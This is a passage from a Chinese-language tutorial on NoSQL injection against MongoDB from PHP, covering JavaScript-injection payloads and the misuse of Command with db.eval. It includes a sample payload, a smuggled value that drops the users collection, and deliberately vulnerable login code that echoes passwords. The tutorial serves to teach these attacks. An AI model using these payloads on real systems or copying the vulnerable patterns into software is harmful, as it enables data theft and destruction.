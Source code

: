 ```php
echo "ok";
} else {
echo "no";
}
?>
```

这时候我们需要构造的payload就变成了

```
username=1&password=1;return ture;
```

后端处理数据时就会变成

```
var username = '" . $_REQUEST["username"] . "';
var password = '" . $_REQUEST["password"] . "';
return ture;
```

#### 4.使用 Command 方法造成的注入

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 db.eval 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 db.eval 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```php
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

还有人喜欢用 Command 去实现 MongoDB 的 distinct方法，如下：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
foreach ($result as $user) {
$user = ((array)$user);
echo '====Login Success====<br>';
echo 'username:' . $user['username'] . '<br>';
echo 'password:' . $user['password'] . '<br>';
}
}
else{
echo 'Login Failed';
}
```